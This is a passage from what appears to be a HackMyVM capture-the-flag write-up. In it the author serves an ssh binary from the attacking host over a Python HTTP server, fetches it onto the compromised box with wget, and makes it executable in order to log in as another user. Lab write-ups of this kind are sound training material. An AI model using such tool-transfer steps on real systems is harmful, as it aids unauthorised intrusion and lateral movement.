 We appear not to have access the `ssh` binary program on the box:

```bash
talos@principle:~/.ssh$ ssh -i id_rsa elohim@127.0.0.1 -p 3445
ssh -i id_rsa elohim@127.0.0.1 -p 3445
bash: /usr/bin/ssh: Permission denied

```

So, I copied my own ssh binary from my host machine to the target. I created a webserver to host this binary:

```bash
garffff@garffff:~/hackmyvm/principle$ cp /bin/ssh .
garffff@garffff:~/hackmyvm/principle$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.0.210 - - [02/Aug/2024 19:27:25] "GET /ssh HTTP/1.1" 200 -

```

I copied  it over, and made it executable:

```bash
talos@principle:~$ wget http://192.168.0.51/ssh
wget http://192.168.0.51/ssh
--2024-08-04 09:12:41--  http://192.168.0.51/ssh
Connecting to 192.168.0.51:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 846888 (827K) [application/octet-stream]
Saving to: ‘ssh’

ssh                 100%[===================>] 827.04K  --.-KB/s    in 0.02s   

2024-08-04 09:12:41 (49.4 MB/s) - ‘ssh’ saved [846888/846888]

talos@principle:~$ ls -lash
ls -lash
total 868K
4.0K drwxr-xr-x 4 talos talos 4.0K Aug  2 14:27 .
4.0K drwxr-xr-x 4 root  root  4.0K Jul  4  2023 ..
4.0K -rw-r--r-- 1 talos talos    1 Jul 14  2023 .bash_history
4.0K -rw-r----- 1 talos talos  261 Jul  5  2023 .bash_logout
4.0K -rw-r----- 1 talos talos 3.5K Jul 14  2023 .bashrc
4.0K -rw------- 1 talos talos   20 Jul  4  2023 .lesshst
4.0K drw-r----- 3 talos talos 4.0K Jun 30  2023 .local
4.0K -rw-r----- 1 talos talos  320 Jul 13  2023 note.txt
4.0K -rw-r----- 1 talos talos  807 Jun 30  2023 .profile
4.0K drwx------ 2 talos talos 4.0K Aug  2 14:16 .ssh
828K -rw-rw-rw- 1 talos talos 828K Aug  2 14:27 ssh
talos@principle:~$ chmod +x ssh
chmod +x ssh
talos@principle:~$ ls -lash
ls -lash
total 868K
4.0K drwxr-xr-x 4 talos talos 4.0K Aug  2 14:27 .
4.0K drwxr-xr-x 4 root  root  4.0K Jul  4  2023 ..
4.0K -rw-r--r-- 1 talos talos    1 Jul 14  2023 .bash_history
4.0K -rw-r----- 1 talos talos  261 Jul  5  2023 .bash_logout
4.0K -rw-r----- 1 talos talos 3.5K Jul 14  2023 .bashrc
4.0K -rw------- 1 talos talos   20 Jul  4  2023 .lesshst
4.0K drw-r----- 3 talos talos 4.0K Jun 30  2023 .local
4.0K -rw-r----- 1 talos talos  320 Jul 13  2023 note.txt
4.0K -rw-r----- 1 talos talos  807 Jun 30  2023 .profile
4.0K drwx------ 2 talos talos 4.0K Aug  2 14:16 .ssh
828K -rwxrwxrwx 1 talos talos 828K Aug  2 14:27 ssh
```
